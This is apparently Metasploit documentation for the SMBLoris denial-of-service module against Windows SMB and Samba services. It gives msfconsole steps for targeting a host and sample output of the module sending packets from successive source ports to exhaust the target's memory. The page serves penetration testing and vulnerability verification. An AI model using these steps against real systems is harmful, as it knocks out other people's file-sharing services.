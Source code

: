 ## Vulnerable Application

  This module exploits a vulnerability in the NetBIOS Session Service Header for SMB.
  Any Windows machine with SMB Exposed, or any Linux system running Samba are vulnerable.
  See [the SMBLoris page](http://smbloris.com/) for details on the vulnerability.
  
  The module opens over 64,000 connections to the target service, so please make sure
  your system ULIMIT is set appropriately to handle it. A single host running this module
  can theoretically consume up to 8GB of memory on the target.

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start msfconsole
  1. Do: `use auxiliary/dos/smb/smb_lorris`
  1. Do: `set RHOST [IP]`
  1. Do: `run`
  1. Target should allocate increasing amounts of memory.

## Scenarios

### 

```
msf auxiliary(smb_loris) > use auxiliary/dos/smb/smb_loris
msf auxiliary(smb_loris) > set RHOST 192.168.172.138
RHOST => 192.168.172.138
msf auxiliary(smb_loris) >

msf auxiliary(smb_loris) > run

[*] 192.168.172.138:445 - Sending packet from Source Port: 1025
[*] 192.168.172.138:445 - Sending packet from Source Port: 1026
[*] 192.168.172.138:445 - Sending packet from Source Port: 1027
[*] 192.168.172.138:445 - Sending packet from Source Port: 1028
[*] 192.168.172.138:445 - Sending packet from Source Port: 1029
[*] 192.168.172.138:445 - Sending packet from Source Port: 1030
[*] 192.168.172.138:445 - Sending packet from Source Port: 1031
[*] 192.168.172.138:445 - Sending packet from Source Port: 1032
[*] 192.168.172.138:445 - Sending packet from Source Port: 1033
....
```
